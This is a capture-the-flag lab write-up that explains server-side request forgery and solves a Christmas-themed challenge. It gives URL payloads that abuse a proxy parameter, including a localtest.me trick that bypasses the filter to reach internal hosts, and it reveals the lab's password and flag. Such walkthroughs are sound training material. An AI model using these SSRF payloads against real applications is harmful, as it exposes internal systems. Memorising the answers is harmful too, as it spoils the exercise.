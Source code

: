 # The Naughty or Nice List

## Video

{% embed url="https://www.youtube.com/watch?v=XgJ\_6xdspKM" %}

## Resources

### Server-Side Request Forgery

Server-Side Request Forgery \(SSRF\) is a web app vulnerability that allows attackers to force the web application server to make requests to resources it normally wouldn't. For example, a web app may have the functionality to produce screenshots of other websites when a user supplies a URL. This is perfectly valid functionality, however, URLs can also be made for internal IP addresses \(e.g. 192.168.1.1, 10.10.10.10, 127.0.0.1 etc.\) as well as internal-only hostnames \(e.g. localhost, WIN2019SERV.CORP\). If a web developer is not careful, an attacker could provide the app with these and manage to screenshot internal resources, which often have less protections.

To counter this, user-provided URLs can be checked before they are requested, to ensure that malicious values are not being used. However, due to the complex nature of URLs themselves, there are often many things an attacker can do to bypass these checks.

Note that while the example of SSRF used in this task is effectively a Remote File Inclusion \(RFI\) vulnerability as well, not every SSRF is. Some SSRF vulnerabilities only trigger a DNS lookup, while others may not return any kind of response to the web app, but can still be used to "port scan" internal systems by measuring the time each request takes to complete. In other cases, SSRF may be used as a form of Denial of Service \(DoS\) since the attacker can continually request that the server download large files simultaneously \(taking up memory, disk space, and network bandwidth\).

## Challenge

### What is Santa's password?

![](../.gitbook/assets/image%20%28150%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2Fsearch.php%3Fname%3DShell5

{% embed url="https://meyerweb.com/eric/tools/dencoder/" %}

![](../.gitbook/assets/image%20%28163%29.png)

> http://10.10.129.132/?proxy=http://list.hohoho:8080/search.php?name=Shell5

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2F

![](../.gitbook/assets/image%20%28174%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A80

![](../.gitbook/assets/image%20%28192%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A80

![](../.gitbook/assets/image%20%28138%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flocalhost

![](../.gitbook/assets/image%20%28137%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho.localtest.me

![](../.gitbook/assets/image%20%28178%29.png)

{% hint style="success" %}
> Be good for goodness sake!
{% endhint %}

### What is the challenge flag?

![](../.gitbook/assets/image%20%28175%29.png)

> Login: Santa
>
> Password: Be good for goodness sake!

![](../.gitbook/assets/image%20%28156%29.png)

{% hint style="success" %}
THM{EVERYONE\_GETS\_PRESENTS}
{% endhint %}

